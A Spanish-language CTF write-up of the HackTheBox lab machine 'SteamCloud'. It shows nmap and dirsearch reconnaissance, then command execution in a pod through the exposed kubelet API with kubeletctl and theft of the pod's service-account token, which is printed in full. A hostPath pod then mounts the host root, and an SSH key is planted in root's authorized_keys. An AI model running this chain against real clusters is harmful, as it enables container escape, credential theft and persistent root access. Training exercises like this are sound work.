










## Box Info

| Name                  | SteamCloud       | 
| :-------------------- | ---------------: |
| Release Date          | 14 Feb, 2022     |
| OS                    | Linux            |
| Rated Difficulty      | Easy             |

```
ping -c 3 10.10.11.133
PING 10.10.11.133 (10.10.11.133) 56(84) bytes of data.
64 bytes from 10.10.11.133: icmp_seq=1 ttl=63 time=136 ms
64 bytes from 10.10.11.133: icmp_seq=2 ttl=63 time=127 ms
64 bytes from 10.10.11.133: icmp_seq=3 ttl=63 time=127 ms
```

Maquina Linux = ttl=63 -aprox-> 64 = Linux
## Recon

```
sudo nmap -p- --open --min-rate 5000 -n -vv -Pn 10.10.11.133 -oG allPorts
```

```zsh
nmap -sCV -p 22,2379,2380,8443,10249,10250,10256 10.10.11.133 -oN targeted
```

```
# Nmap 7.95 scan initiated Sat Jul 19 16:30:28 2025 as: /usr/lib/nmap/nmap --privileged -sCV -p 22,2379,2380,8443,10249,10250,10256 -oN targeted 10.10.11.133
Nmap scan report for 10.10.11.133
Host is up (0.13s latency).

PORT      STATE SERVICE          VERSION
22/tcp    open  ssh              OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 fc:fb:90:ee:7c:73:a1:d4:bf:87:f8:71:e8:44:c6:3c (RSA)
|   256 46:83:2b:1b:01:db:71:64:6a:3e:27:cb:53:6f:81:a1 (ECDSA)
|_  256 1d:8d:d3:41:f3:ff:a4:37:e8:ac:78:08:89:c2:e3:c5 (ED25519)
2379/tcp  open  ssl/etcd-client?
| tls-alpn: 
|_  h2
| ssl-cert: Subject: commonName=steamcloud
| Subject Alternative Name: DNS:localhost, DNS:steamcloud, IP Address:10.10.11.133, IP Address:127.0.0.1, IP Address:0:0:0:0:0:0:0:1
| Not valid before: 2025-07-19T20:28:16
|_Not valid after:  2026-07-19T20:28:16
|_ssl-date: TLS randomness does not represent time
2380/tcp  open  ssl/etcd-server?
| tls-alpn: 
|_  h2
| ssl-cert: Subject: commonName=steamcloud
| Subject Alternative Name: DNS:localhost, DNS:steamcloud, IP Address:10.10.11.133, IP Address:127.0.0.1, IP Address:0:0:0:0:0:0:0:1
| Not valid before: 2025-07-19T20:28:16
|_Not valid after:  2026-07-19T20:28:16
|_ssl-date: TLS randomness does not represent time
8443/tcp  open  ssl/http         Golang net/http server
|_http-title: Site doesn't have a title (application/json).
| ssl-cert: Subject: commonName=minikube/organizationName=system:masters
| Subject Alternative Name: DNS:minikubeCA, DNS:control-plane.minikube.internal, DNS:kubernetes.default.svc.cluster.local, DNS:kubernetes.default.svc, DNS:kubernetes.default, DNS:kubernetes, DNS:localhost, IP Address:10.10.11.133, IP Address:10.96.0.1, IP Address:127.0.0.1, IP Address:10.0.0.1
| Not valid before: 2025-07-18T20:28:14
|_Not valid after:  2028-07-18T20:28:14
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|   h2
|_  http/1.1
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 403 Forbidden
|     Audit-Id: 1d460ee6-1430-4726-90ce-1fbb22b04d1f
|     Cache-Control: no-cache, private
|     Content-Type: application/json
|     X-Content-Type-Options: nosniff
|     X-Kubernetes-Pf-Flowschema-Uid: 05c1fea2-8bb7-4883-b2c9-c7cb1a35f9be
|     X-Kubernetes-Pf-Prioritylevel-Uid: 3c8f7408-9b5f-41e9-87f3-ea587eab9be4
|     Date: Sat, 19 Jul 2025 20:30:43 GMT
|     Content-Length: 212
|     {"kind":"Status","apiVersion":"v1","metadata":{},"status":"Failure","message":"forbidden: User "system:anonymous" cannot get path "/nice ports,/Trinity.txt.bak"","reason":"Forbidden","details":{},"code":403}
|   GetRequest: 
|     HTTP/1.0 403 Forbidden
|     Audit-Id: 25f5481e-d3bf-449a-964d-08efe25470d8
|     Cache-Control: no-cache, private
|     Content-Type: application/json
|     X-Content-Type-Options: nosniff
|     X-Kubernetes-Pf-Flowschema-Uid: 05c1fea2-8bb7-4883-b2c9-c7cb1a35f9be
|     X-Kubernetes-Pf-Prioritylevel-Uid: 3c8f7408-9b5f-41e9-87f3-ea587eab9be4
|     Date: Sat, 19 Jul 2025 20:30:42 GMT
|     Content-Length: 185
|     {"kind":"Status","apiVersion":"v1","metadata":{},"status":"Failure","message":"forbidden: User "system:anonymous" cannot get path "/"","reason":"Forbidden","details":{},"code":403}
|   HTTPOptions: 
|     HTTP/1.0 403 Forbidden
|     Audit-Id: 983172a4-6912-47f0-bb1c-b4794baf14c8
|     Cache-Control: no-cache, private
|     Content-Type: application/json
|     X-Content-Type-Options: nosniff
|     X-Kubernetes-Pf-Flowschema-Uid: 05c1fea2-8bb7-4883-b2c9-c7cb1a35f9be
|     X-Kubernetes-Pf-Prioritylevel-Uid: 3c8f7408-9b5f-41e9-87f3-ea587eab9be4
|     Date: Sat, 19 Jul 2025 20:30:42 GMT
|     Content-Length: 189
|_    {"kind":"Status","apiVersion":"v1","metadata":{},"status":"Failure","message":"forbidden: User "system:anonymous" cannot options path "/"","reason":"Forbidden","details":{},"code":403}
10249/tcp open  http             Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
10250/tcp open  ssl/http         Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_ssl-date: TLS randomness does not represent time
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
| ssl-cert: Subject: commonName=steamcloud@1752956898
| Subject Alternative Name: DNS:steamcloud
| Not valid before: 2025-07-19T19:28:18
|_Not valid after:  2026-07-19T19:28:18
| tls-alpn: 
|   h2
|_  http/1.1
10256/tcp open  http             Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8443-TCP:V=7.95%T=SSL%I=7%D=7/19%Time=687C0072%P=x86_64-pc-linux-gn
SF:u%r(GetRequest,22F,"HTTP/1\.0\x20403\x20Forbidden\r\nAudit-Id:\x2025f54
SF:81e-d3bf-449a-964d-08efe25470d8\r\nCache-Control:\x20no-cache,\x20priva
SF:te\r\nContent-Type:\x20application/json\r\nX-Content-Type-Options:\x20n
SF:osniff\r\nX-Kubernetes-Pf-Flowschema-Uid:\x2005c1fea2-8bb7-4883-b2c9-c7
SF:cb1a35f9be\r\nX-Kubernetes-Pf-Prioritylevel-Uid:\x203c8f7408-9b5f-41e9-
SF:87f3-ea587eab9be4\r\nDate:\x20Sat,\x2019\x20Jul\x202025\x2020:30:42\x20
SF:GMT\r\nContent-Length:\x20185\r\n\r\n{\"kind\":\"Status\",\"apiVersion\
SF:":\"v1\",\"metadata\":{},\"status\":\"Failure\",\"message\":\"forbidden
SF::\x20User\x20\\\"system:anonymous\\\"\x20cannot\x20get\x20path\x20\\\"/
SF:\\\"\",\"reason\":\"Forbidden\",\"details\":{},\"code\":403}\n")%r(HTTP
SF:Options,233,"HTTP/1\.0\x20403\x20Forbidden\r\nAudit-Id:\x20983172a4-691
SF:2-47f0-bb1c-b4794baf14c8\r\nCache-Control:\x20no-cache,\x20private\r\nC
SF:ontent-Type:\x20application/json\r\nX-Content-Type-Options:\x20nosniff\
SF:r\nX-Kubernetes-Pf-Flowschema-Uid:\x2005c1fea2-8bb7-4883-b2c9-c7cb1a35f
SF:9be\r\nX-Kubernetes-Pf-Prioritylevel-Uid:\x203c8f7408-9b5f-41e9-87f3-ea
SF:587eab9be4\r\nDate:\x20Sat,\x2019\x20Jul\x202025\x2020:30:42\x20GMT\r\n
SF:Content-Length:\x20189\r\n\r\n{\"kind\":\"Status\",\"apiVersion\":\"v1\
SF:",\"metadata\":{},\"status\":\"Failure\",\"message\":\"forbidden:\x20Us
SF:er\x20\\\"system:anonymous\\\"\x20cannot\x20options\x20path\x20\\\"/\\\
SF:"\",\"reason\":\"Forbidden\",\"details\":{},\"code\":403}\n")%r(FourOhF
SF:ourRequest,24A,"HTTP/1\.0\x20403\x20Forbidden\r\nAudit-Id:\x201d460ee6-
SF:1430-4726-90ce-1fbb22b04d1f\r\nCache-Control:\x20no-cache,\x20private\r
SF:\nContent-Type:\x20application/json\r\nX-Content-Type-Options:\x20nosni
SF:ff\r\nX-Kubernetes-Pf-Flowschema-Uid:\x2005c1fea2-8bb7-4883-b2c9-c7cb1a
SF:35f9be\r\nX-Kubernetes-Pf-Prioritylevel-Uid:\x203c8f7408-9b5f-41e9-87f3
SF:-ea587eab9be4\r\nDate:\x20Sat,\x2019\x20Jul\x202025\x2020:30:43\x20GMT\
SF:r\nContent-Length:\x20212\r\n\r\n{\"kind\":\"Status\",\"apiVersion\":\"
SF:v1\",\"metadata\":{},\"status\":\"Failure\",\"message\":\"forbidden:\x2
SF:0User\x20\\\"system:anonymous\\\"\x20cannot\x20get\x20path\x20\\\"/nice
SF:\x20ports,/Trinity\.txt\.bak\\\"\",\"reason\":\"Forbidden\",\"details\"
SF::{},\"code\":403}\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jul 19 16:31:17 2025 -- 1 IP address (1 host up) scanned in 48.39 seconds
```

Nmap ya nos reporta en el puerto 8443 que se esta empleando kubernetes.

# Kubernetes

https://etcd.io/docs/v3.2/op-guide/security/

- Expuesto el servicio `etcd`: actúa como una base de datos distribuida para la configuración, el estado y los metadatos, especialmente en entornos de Kubernetes.

**8443/TCP - kube-apiserver - Minikube API port**



### Enumerate Directory

De forma predeterminada, los endpoints de la API tienen prohibido el acceso anónimo. Sin embargo, siempre es recomendable comprobar si existen endpoints inseguros que expongan información confidencial:

```zsh
dirsearch -u https://10.10.11.133:8443/    

Target: https://10.10.11.133:8443/

[16:57:31] Starting: 
[16:57:56] 403 -  311B  - /api/2/explore/
[16:57:56] 403 -  345B  - /api/2/issue/createmeta
[16:57:56] 403 -  326B  - /api/apidocs/swagger.json
[16:57:56] 403 -  311B  - /api/cask/graphql
[16:57:56] 403 -  342B  - /api/package_search/v4/documentation
[16:57:56] 403 -  308B  - /api/jsonws/invoke
[16:57:56] 403 -  326B  - /api/spec/swagger.json
[16:57:56] 403 -  326B  - /api/swagger/ui/index
[16:57:56] 403 -  320B  - /api/swagger/index.html
[16:57:56] 403 -  311B  - /api/swagger/swagger
[16:57:56] 403 -  348B  - /api/swagger/static/index.html
[16:57:56] 403 -  299B  - /api/timelion/run
[16:57:56] 403 -  326B  - /api/v1/swagger.json
[16:57:56] 403 -  326B  - /api/v1/swagger.yaml
[16:57:56] 403 -  326B  - /api/v2/swagger.json
[16:57:56] 403 -  350B  - /api/v2/helpdesk/discover
[16:57:56] 403 -  326B  - /api/v2/swagger.yaml
[16:57:56] 403 -  353B  - /api/vendor/phpunit/phpunit/phpunit
[16:58:10] 200 -    2B  - /healthz
[16:58:37] 200 -  263B  - /version/
[16:58:37] 200 -  263B  - /version
```

https://hacktricks.boitatech.com.br/pentesting/pentesting-kubernetes/pentesting-kubernetes-from-the-outside

## Kubelet API

```zsh
curl -k https://<IP address>:10250
curl -k https://<IP address>:10250/metrics
curl -k https://<IP address>:10250/pods
```

### Enumerate Directory

```zsh
dirsearch -u https://10.10.11.133:10250/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

```zsh
[17:37:44] Starting: 
[17:37:47] 301 -   42B  - /stats  ->  /stats/
[17:37:54] 404 -   19B  - /exec
[17:37:58] 301 -   41B  - /logs  ->  /logs/
[17:38:15] 404 -   19B  - /attach
[17:38:21] 404 -   19B  - /run
[17:38:30] 200 -  212KB - /metrics
[17:39:48] 301 -   45B  - /http%3A%2F%2Fwww  ->  /http:/www
[17:40:56] 200 -   37KB - /pods
```

```zsh
curl -l "https://10.10.11.133:10250/pods" | jq
```

Otra manera de visualizarlo es mediante la web.

**10250/TCP - kubelet - HTTPS API which allows full mode access **



Con la herramienta [kubeletctl](https://github.com/cyberark/kubeletctl) que es un cliente para kubernetes podriamos de igual forma enumerar los ``pods`` junto los ``namespace``

```zsh
kubeletctl -s 10.10.11.133 pods
```



[Using Kubelet client to attack the kubernetes cluster](https://www.cyberark.com/resources/threat-research-blog/using-kubelet-client-to-attack-the-kubernetes-cluster)

```
kubeletctl -s 10.10.11.133 scan --help
```

```zsh
Usage:
  kubeletctl scan [flags]
  kubeletctl scan [command]w

Available Commands:
  rce         Scans for nodes with opened kubelet API
  token       Scans for for all the tokens in a given Node.
```

Con el comando `rce` se utiliza para escanear un servidor de Kubelet en busca de vulnerabilidades que permitan ejecución remota de código (RCE).

```zsh
kubeletctl -s 10.10.11.133 scan rce
```



Como se puede ver, revela que pods/containers podría ejecutar comandos arbitrarios en el nodo de Kubernetes.

```zsh
kubeletctl -s 10.10.11.133 -p nginx -n default -c nginx exec "whoami"
```



```zsh
kubeletctl -s 10.10.11.133 -p nginx -n default -c nginx exec "bash"
```



[enumeration-from-a-pod)](https://hacktricks.boitatech.com.br/pentesting/pentesting-kubernetes/enumeration-from-a-pod)

- Transferimos los archivos a nuestra maquina.

`/run/secrets/kubernetes.io/serviceaccount/ca.crt`
`/run/secrets/kubernetes.io/serviceaccount/token`

O desde el comando incluso podemos transferirnos el archivo

```zsh
kubeletctl -s 10.10.11.133 -p nginx -n default -c nginx exec "cat /run/secrets/kubernetes.io/serviceaccount/token" > token
```

```zsh
kubectl -s https://10.10.11.133:8443 auth --token "eyJhbGciOiJSUzI1NiIsImtpZCI6IkdiNmNfSTJsbUl3R3VxTHdTWWloNVJSenJxaVBNUmlMZWR0OUtpS3p2S3cifQ.eyJhdWQiOlsiaHR0cHM6Ly9rdWJlcm5ldGVzLmRlZmF1bHQuc3ZjLmNsdXN0ZXIubG9jYWwiXSwiZXhwIjoxNzg0NTAxNzEzLCJpYXQiOjE3NTI5NjU3MTMsImlzcyI6Imh0dHBzOi8va3ViZXJuZXRlcy5kZWZhdWx0LnN2Yy5jbHVzdGVyLmxvY2FsIiwia3ViZXJuZXRlcy5pbyI6eyJuYW1lc3BhY2UiOiJkZWZhdWx0IiwicG9kIjp7Im5hbWUiOiJuZ2lueCIsInVpZCI6IjIwNDQ3ODJiLTNhNmQtNGEzZi05ZmFkLTBhMjE1YjkxMjJhYSJ9LCJzZXJ2aWNlYWNjb3VudCI6eyJuYW1lIjoiZGVmYXVsdCIsInVpZCI6ImY4MmM3NjY1LTFlNGUtNDVhNi05MWIxLWM5MTExZjA2NDI4NCJ9LCJ3YXJuYWZ0ZXIiOjE3NTI5NjkzMjB9LCJuYmYiOjE3NTI5NjU3MTMsInN1YiI6InN5c3RlbTpzZXJ2aWNlYWNjb3VudDpkZWZhdWx0OmRlZmF1bHQifQ.fkC7k-puLpJWTQdaihrL9ZJhhAcVOlii0JCZosqb1wnMqah0wxDHoRphhCZ4QhK0kdPw4slRjeLvAeXeOKgWgoruH3c-N1K6Tgx5wz30rDNosqeD-87ygGe8ldKodnFe84-l_XWpBAk_yU1M5Ogs125dJdpGBas2euTuchIPiqTYjJ9PqLNzphxYt6IdTM3JsnVoRPKOP52v8O91AO03Tip3M4rRW7CqHrKDx6qPQeqPwGJrpgGKtCSpK3feUQJpTjDGtIlBrWLE4Zs39yV01aoi7GR7q-UDZ-9E2wMlTbJxc8vI0R3odyGLXtOrZjvOVenvdo7zZpqfc533HIdyTA" --certificate-authority=ca.crt can-i create pod
```



## Create Malicious Pod


Vamos a tomar de refencia el pod de nginx para poder crear nuestro pod maclioso.

```zsh
kubectl -s https://10.10.11.133:8443 --token='eyJhbGciOiJSUzI1NiIsImtpZCI6IkdiNmNfSTJsbUl3R3VxTHdTWWloNVJSenJxaVBNUmlMZWR0OUtpS3p2S3cifQ.eyJhdWQiOlsiaHR0cHM6Ly9rdWJlcm5ldGVzLmRlZmF1bHQuc3ZjLmNsdXN0ZXIubG9jYWwiXSwiZXhwIjoxNzg0NTAxNzEzLCJpYXQiOjE3NTI5NjU3MTMsImlzcyI6Imh0dHBzOi8va3ViZXJuZXRlcy5kZWZhdWx0LnN2Yy5jbHVzdGVyLmxvY2FsIiwia3ViZXJuZXRlcy5pbyI6eyJuYW1lc3BhY2UiOiJkZWZhdWx0IiwicG9kIjp7Im5hbWUiOiJuZ2lueCIsInVpZCI6IjIwNDQ3ODJiLTNhNmQtNGEzZi05ZmFkLTBhMjE1YjkxMjJhYSJ9LCJzZXJ2aWNlYWNjb3VudCI6eyJuYW1lIjoiZGVmYXVsdCIsInVpZCI6ImY4MmM3NjY1LTFlNGUtNDVhNi05MWIxLWM5MTExZjA2NDI4NCJ9LCJ3YXJuYWZ0ZXIiOjE3NTI5NjkzMjB9LCJuYmYiOjE3NTI5NjU3MTMsInN1YiI6InN5c3RlbTpzZXJ2aWNlYWNjb3VudDpkZWZhdWx0OmRlZmF1bHQifQ.fkC7k-puLpJWTQdaihrL9ZJhhAcVOlii0JCZosqb1wnMqah0wxDHoRphhCZ4QhK0kdPw4slRjeLvAeXeOKgWgoruH3c-N1K6Tgx5wz30rDNosqeD-87ygGe8ldKodnFe84-l_XWpBAk_yU1M5Ogs125dJdpGBas2euTuchIPiqTYjJ9PqLNzphxYt6IdTM3JsnVoRPKOP52v8O91AO03Tip3M4rRW7CqHrKDx6qPQeqPwGJrpgGKtCSpK3feUQJpTjDGtIlBrWLE4Zs39yV01aoi7GR7q-UDZ-9E2wMlTbJxc8vI0R3odyGLXtOrZjvOVenvdo7zZpqfc533HIdyTA' --certificate-authority=ca.crt get pod nginx -o yaml
```

Lo ajustamos para que obtenga la raiz `/mnt`  de la maquina steamcloud (10.10.11.133)

```js
apiVersion: v1
kind: Pod
metadata:
  name: pwn
  namespace: default
spec:
  containers:
  - image: nginx:1.14.2
    name: pwn
    volumeMounts:
    - mountPath: /mnt
      name: flag
  volumes:
  - hostPath:
      path: /
    name: flag
```

```zsh
kubectl -s https://10.10.11.133:8443 create -f evil.yaml --token='eyJhbGciOiJSUzI1NiIsImtpZCI6IkdiNmNfSTJsbUl3R3VxTHdTWWloNVJSenJxaVBNUmlMZWR0OUtpS3p2S3cifQ.eyJhdWQiOlsiaHR0cHM6Ly9rdWJlcm5ldGVzLmRlZmF1bHQuc3ZjLmNsdXN0ZXIubG9jYWwiXSwiZXhwIjoxNzg0NTAxNzEzLCJpYXQiOjE3NTI5NjU3MTMsImlzcyI6Imh0dHBzOi8va3ViZXJuZXRlcy5kZWZhdWx0LnN2Yy5jbHVzdGVyLmxvY2FsIiwia3ViZXJuZXRlcy5pbyI6eyJuYW1lc3BhY2UiOiJkZWZhdWx0IiwicG9kIjp7Im5hbWUiOiJuZ2lueCIsInVpZCI6IjIwNDQ3ODJiLTNhNmQtNGEzZi05ZmFkLTBhMjE1YjkxMjJhYSJ9LCJzZXJ2aWNlYWNjb3VudCI6eyJuYW1lIjoiZGVmYXVsdCIsInVpZCI6ImY4MmM3NjY1LTFlNGUtNDVhNi05MWIxLWM5MTExZjA2NDI4NCJ9LCJ3YXJuYWZ0ZXIiOjE3NTI5NjkzMjB9LCJuYmYiOjE3NTI5NjU3MTMsInN1YiI6InN5c3RlbTpzZXJ2aWNlYWNjb3VudDpkZWZhdWx0OmRlZmF1bHQifQ.fkC7k-puLpJWTQdaihrL9ZJhhAcVOlii0JCZosqb1wnMqah0wxDHoRphhCZ4QhK0kdPw4slRjeLvAeXeOKgWgoruH3c-N1K6Tgx5wz30rDNosqeD-87ygGe8ldKodnFe84-l_XWpBAk_yU1M5Ogs125dJdpGBas2euTuchIPiqTYjJ9PqLNzphxYt6IdTM3JsnVoRPKOP52v8O91AO03Tip3M4rRW7CqHrKDx6qPQeqPwGJrpgGKtCSpK3feUQJpTjDGtIlBrWLE4Zs39yV01aoi7GR7q-UDZ-9E2wMlTbJxc8vI0R3odyGLXtOrZjvOVenvdo7zZpqfc533HIdyTA' --certificate-authority=ca.crt

pod/pwn created
```

Podemos verificar de esta manera si nuestro pod fue creado y como podemos ver nuestro pod puede ejecutar comandos

```zsh
kubeletctl -s 10.10.11.133 scan rce
```



```zsh
kubeletctl -s 10.10.11.133 -p pwn -n default -c pwn exec "bash"
```



si nos dirigimos al `/mnt` podremos ver otra raíz e incluso podemos ver la flag de root.txt de la maquina steamcloud.

creamos claves ssh para conectarnos sin proveer contraseña.

`ssh-keygen`

```
cat id_ed25519.pub| tr -d '\n' | xclip -sel clip
```

- steamcloud machine

```
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJQfXv3MLXm6Nyh+SgtGlM0JCaDM9UeOCWxl7 root@kali" > authorized_keys
```

```zsh
ssh root@10.10.11.133
```



